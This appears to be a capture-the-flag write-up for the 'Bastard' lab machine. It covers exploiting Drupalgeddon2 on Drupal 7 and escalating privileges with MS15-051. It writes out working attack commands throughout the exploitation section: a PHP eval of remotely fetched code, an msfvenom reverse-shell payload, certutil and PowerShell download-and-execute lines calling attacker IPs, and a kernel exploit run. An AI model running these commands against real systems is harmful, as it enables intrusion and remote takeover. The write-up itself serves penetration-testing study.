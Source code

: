 # Bastard

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 7.5
- port 135/tcp RPC
- port 49154/tcp RPC

port 80 shows a login page for Bastard, powered by Drupal (CMS)

![Login](./pictures/drupal.png)

Drupal version 7, vulnerable to Drupalgeddon2 RCE https://www.exploit-db.com/exploits/44449

### Exploitation

The default exploit reverse shells didn't work so used the command execution function of the exploit and 
metasploit's web_delivery module to get a reverse PHP meterpreter shell

`php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.10.10:8080/BAL6I4S8puN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"`

Unfortunately the meterpreter shell times out and we cannot migrate from a PHP meterpreter shell

The AV was interfering with the shell as using port 443 for the reverse shell works

Using [pimps version of CVE-2018-7600]@(https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) we can upload a reverse shell to the target (44449.rb works too)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o shell.exe`

`python3 pimps-exploit.py -c 'certutil -urlcache -f http://10.10.10.10/shell.exe C:\temp\shell.exe' http://10.10.10.9`

Then execute it with a netcat listener on port 443

`python3 pimps-exploit.py -c 'C:\temp\shell.exe' http://10.10.10.9`

We can use powershell to download and execute sherlock to find privesc vectors. Host sherlock.ps1 with a
python server and use powershell to download and execute it (Don't forget to add `Find-AllVulns` to the last 
line of sherlock)

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:80/sherlock.ps1') | powershell -noprofile -` - [great cheatsheet here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)

### Privilege Escalation

Working our way down the list we find that the target is vulnerable to [MS15-051 (use zip)](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/README.md)

Upload the exe to the target and run `ms15-051x64.exe "cmd.exe"` to get a System cmd prompt

